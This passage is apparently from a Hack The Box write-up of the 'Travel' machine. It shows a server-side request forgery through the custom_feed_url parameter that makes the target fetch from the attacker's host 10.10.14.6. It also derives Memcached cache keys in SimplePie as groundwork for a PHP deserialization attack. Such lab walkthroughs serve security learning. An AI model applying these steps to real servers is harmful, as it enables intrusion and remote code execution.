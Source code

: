The PHP file _debug.php_ is actually placed in _wp-content/themes/twentytwenty/_ and can be called from there.

Now it has to be found out if there is a way for user input so the server calls back to us and it may be possible to manipulate the PHP serialized object.

In _rss_template.php_ is a line that gets information from a specified URL if the argument _custom_feed_url_ is not used:
```
(...)
$url = $_SERVER['QUERY_STRING'];
if(strpos($url, "custom_feed_url") !== false){
    $tmp = (explode("=", $url));    
    $url = end($tmp);       
} else {
    $url = "http://www.travel.htb/newsfeed/customfeed.xml";
  }
(...)
```

So when the _custom_feed_url_ argument is used, our local client can be specified to download data from us:
```
GET /awesome-rss/?custom_feed_url=http://10.10.14.6/testfile HTTP/1.1
Host: blog.travel.htb
(...)
```

Our local web server gets a connection back and proofs that this is a way to make the box connect to our client.

The string _"xct"_ is mentioned in _rss_template.php_ when it sets the cache location to a **Memcached** service on the localhost of the box:
```
(...)
if ($url) {
         $simplepie = new SimplePie();
         $simplepie->set_cache_location('memcache://127.0.0.1:11211/?timeout=60&prefix=xct_');
(...)
```

It uses [SimplePie](https://simplepie.org/) as the feed parser to cache objects from **Memcached**.

### Exploiting Web Server

The [source code of SimplePie](https://github.com/WordPress/WordPress/tree/master/wp-includes/SimplePie) will explain how the string gets generated.

First we need to figure out how the first part is generated, because the objects will only trigger on the page they are.
After getting that, a PHP object can be deserialized to get code execution.

Generating the MD5 hash for _/newsfeed/customfeed.xml_:
```
echo -n 'http://www.travel.htb/newsfeed/customfeed.xml' | md5sum

3903a76d1e6fef0d76e973a0561cbfc0
```
```
echo -n '3903a76d1e6fef0d76e973a0561cbfc0:spc' | md5sum

4e5612ba079c530a6b1f148c0b352241
```

